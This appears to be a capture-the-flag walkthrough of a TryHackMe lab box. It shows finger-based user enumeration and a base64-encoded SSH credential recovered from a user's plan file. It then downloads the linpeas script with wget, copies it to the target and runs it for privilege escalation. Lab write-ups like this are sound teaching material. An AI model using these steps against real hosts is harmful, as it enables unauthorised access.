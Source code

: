 visiting the site show a simple page with no hidden comments or html and no backend requests:
![](https://i.imgur.com/wA2o5CJ.png)

The scan show the `finger` protocol open on port 79 - `The finger protocol, an older internet protocol designed to retrieve information about users on a remote computer. It's primarily used to show who is logged in and potentially some basic details about their session.`
So we can use it to find more information about the users of that machine:
```
$> finger magnus@10.10.151.237
Login: magnus                           Name: 
Directory: /home/magnus                 Shell: /bin/bash
Never logged in.
No mail.
No Plan.

$> finger fabiano@10.10.151.237 
Login: fabiano                          Name: 
Directory: /home/fabiano                Shell: /bin/bash
Never logged in.
No mail.
Project:
Reminders
Plan:
ZmFiaWFubzpvM2pWVGt0YXJHUUkwN3E=

$> finger hikaru@10.10.151.237                                                      
Login: hikaru                           Name: 
Directory: /home/hikaru                 Shell: /bin/bash
Never logged in.
No mail.
Project:
http://localhost
Plan:
Working on AI chess bot for King's Square Chess Club.
```
Using the names from the main page gave us a foothold, using CyberChef for the base64 message from the `fabiano` user we decode a username and password for the ssh service and after login we found the first flag:
![](https://i.imgur.com/12aMFd1.png)
```
$> ssh fabiano@10.10.151.237 
fabiano@10.10.151.237's password:*********
```
![](https://i.imgur.com/PKiFsaL.png)

🚩~flag found~🚩

### What is the content of root.txt?
using `linpeas (https://github.com/peass-ng/PEASS-ng)` to find a way to escalate our privileges, first getting the script to the attacker machine and copy it to the target machine:
```
$> wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh

$> scp linpeas.sh fabiano@10.10.151.237:/
```
and running the script on the target:
```
fabiano@tryhackme-2204:~$ chmod +x linpeas.sh 
fabiano@tryhackme-2204:~$ ./linpeas.sh 
```
`linpeas` found a high lever PE (Privilege Escalation) vector:
![](https://i.imgur.com/zWbFffv.png)
